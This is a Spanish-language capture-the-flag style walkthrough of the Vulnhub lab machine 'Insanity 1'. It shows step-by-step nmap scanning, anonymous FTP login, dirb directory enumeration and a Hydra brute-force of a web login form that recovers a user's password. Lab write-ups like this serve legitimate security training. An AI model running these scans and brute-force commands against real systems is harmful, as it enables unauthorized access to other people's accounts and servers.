 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=FF0000&width=530&height=80&lines=INSANITY_HOSTING"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/insanity-1,536/

<h1 align="center"></h1>

</br>

- *Paso 1:* Identificar la IP de la máquina host con Arp-Scan. 
```
arp-scan --interface wlan0 -l
```
![1](https://user-images.githubusercontent.com/75953873/177059310-4e781fd1-10e5-4204-a0e4-1cb0101ea678.png)

IP host: `192.168.1.10`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.10
```
![2](https://user-images.githubusercontent.com/75953873/177059371-cdbe2b44-c0bb-47bc-843e-443e7f8e38a6.png)

Puertos abiertos: [21,22,80]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 21,22,80 -A 192.168.1.10
```
![3](https://user-images.githubusercontent.com/75953873/177059471-f34e40d9-8d65-4731-9ea1-15efd130ca17.png)

Servidor corriendo: **HTTP Apache**

Servicio FTP: permite el inicio de sesión anónimo.

O.S: Linux (**CentOS**)

URL: `http://192.168.1.10`

- *Paso 4:* Loguearse al servicio FTP. 
```
ftp 192.168.1.10
```
Usuario: `anonymous`

Contraseña: `anonymous`

![4](https://user-images.githubusercontent.com/75953873/177059681-c67a449f-966c-4557-857a-fb6b689ee742.png)

- *Paso 5:* Enumerar archivos y directorios con Dirb. 
```
dirb http://192.168.1.10/monitoring -X .php -w /usr/share/wordlists/dirb/common.txt 
```
![5](https://user-images.githubusercontent.com/75953873/177060618-20a3b175-70f1-4446-9a98-06fd3472b895.png)

URL completa: `http://192.168.1.10/monitoring/login.php`

![6](https://user-images.githubusercontent.com/75953873/177060649-2c0299a6-1293-4ff3-bd57-3d7f2c377c33.png)

```
dirb http://192.168.1.10 -N .php,.html -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![7](https://user-images.githubusercontent.com/75953873/177060767-64de6138-1ce3-4e06-a2fe-6d73901a3d29.png)

URL completa: `http://192.168.1.10/news`

![8](https://user-images.githubusercontent.com/75953873/177060834-7c34ccb2-29a1-49ff-bf16-b4bee6137d79.png)

```
dirb http://192.168.1.10/news -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![9](https://user-images.githubusercontent.com/75953873/177060944-32c81f13-e6db-4029-ac2c-f9e2d654ebf1.png)

URL completa: `http://192.168.1.10/news/admin/`

![10](https://user-images.githubusercontent.com/75953873/177060975-9ea24383-8fb2-4b1d-a3d2-b33eef1c75a0.png)

- *Paso 6:* Aplicar fuerza bruta a inicio de sesión con Hydra.

```
hydra -l otis -P /usr/share/wordlists/rockyou.txt 192.168.1.10 http-post-form "/monitoring/index.php:username=^USER^&password=^PASS^:Password"
```
![12](https://user-images.githubusercontent.com/75953873/177061649-80af992e-4472-4625-bf57-460e7bd74773.png)

Usuario: `otis`

Contraseña: `123456`

URL completa: `http://192.168.1.10/webmail/src/login.php`

![13](https://user-images.githubusercontent.com/75953873/177061734-1c948dd7-be19-479f-a08e-f62d45051ade.png)
